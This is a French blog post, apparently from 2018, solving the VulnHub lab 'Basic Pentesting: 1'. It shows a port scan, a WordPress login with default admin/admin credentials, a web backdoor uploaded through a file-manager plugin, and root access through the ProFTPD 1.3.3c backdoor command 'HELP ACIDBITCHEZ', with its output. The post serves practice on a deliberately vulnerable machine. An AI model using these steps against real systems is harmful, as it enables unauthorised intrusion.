 ```yaml
---
title: "Solution du CTF Basic Pentesting: 1 de VulnHub"
date: 2018-02-05 12:09:00
tags: [CTF, VulnHub]
---
```


Ici on attaque un CTF nommé [Basic Pentesting](https://www.vulnhub.com/entry/basic-pentesting-1,216/) qui porte bien son nom. Par conséquent je ne passerais que rapidement sur l'exploitation de ce CTF.  

Au menu
-------

```plain
Nmap scan report for 192.168.1.48
Host is up (0.00065s latency).
Not shown: 65499 closed ports, 33 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|_  256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:14:06:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.0
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

La page d'index est celle par défaut d'Apache (*It works!*) mais le module buster de *Wapiti* nous laisse une piste supplémentaire :  

```plain
[*] Launching module buster
Found webpage http://192.168.1.48/secret
```

Il s'agit d'un blog Wordpress en version 4.9.2 (d'après la balise meta generator du code HTML)  

On remarque vite que les liens du site font référence à un hostname appelé *vtcsec* du coup on rajoute une entrée dans notre */etc/hosts*.  

#OPSecFAIL
----------

On lance un *WPScan* dessus qui trouve essentiellement que le listing est activé sur le dossier */wp-includes/* et que l'utilisateur admin est présent.  

Le dossier wp-includes n'a rien qui saute au yeux... Mais quand on essaye de se connecter sur */wp-admin* avec admin/admin... ça passe.  

A partir de là chacun à sa technique, moi j'aime bien installer le plugin [wp-file-manager](https://wordpress.org/plugins/wp-file-manager/) qui permet de gérer les fichiers (on ne voit que ceux sous la racine wordpress mais on peut uploader une backdoor).  

Bien sûr on tourne avec les droits *uid=33(www-data) gid=33(www-data) groups=33(www-data)*.  

On trouve facilement un utilisateur *marlinspike* sur le système (membre du groupe *sudo*) dont le dossier personnel est visitable.  

On trouve notamment une archive décompressée nommée *backdoored\_proftpd-1.3.3c* faisant référence [à une backdoor bien connue](https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor).  

L'obtention des droits root est facile :  

```plain
$ telnet vtcsec 21
Trying 192.168.1.48...
Connected to vtcsec.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (vtcsec) [192.168.1.48]
HELP ACIDBITCHEZ
id;
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

#YOLOsecurity
-------------

Le synopsis nous invite à chercher d'autres façons d'obtenir les droits root.  

Une possibilité est d'utiliser le mot de passe *marlinspike* pour le compte du même nom :  

```plain
$ ssh marlinspike@vtcsec
marlinspike@vtcsec's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.10.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

19 packages can be updated.
19 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

marlinspike@vtcsec:~$ sudo -l
[sudo] password for marlinspike:
Matching Defaults entries for marlinspike on vtcsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marlinspike may run the following commands on vtcsec:
    (ALL : ALL) ALL
```

Au passage ça m'a fait remarquer que [Ncrack](https://nmap.org/ncrack/) ne dispose pas d'option pour tester automatiquement l'absence de mot de passe ou un mot de passe équivalent au login alors que [cette bonne vieille Hydre](https://www.thc.org/thc-hydra/) peut le faire.  

On rajoutera à ça la présence de permissions hasardeuses :  

```plain
-rw-rw-rw-  1 root root    2364 Nov 16 13:02 passwd
-rw-r--r--  1 root shadow  1305 Nov 16 13:02 shadow
```

Conclusions
-----------

Simple et rapide. Une situation plus réaliste aurait été la présence d'une page avec une injection SQL permettant de retrouver le hash de l'admin Wordpress pour le casser...

*Published February 05 2018 at 12:09*
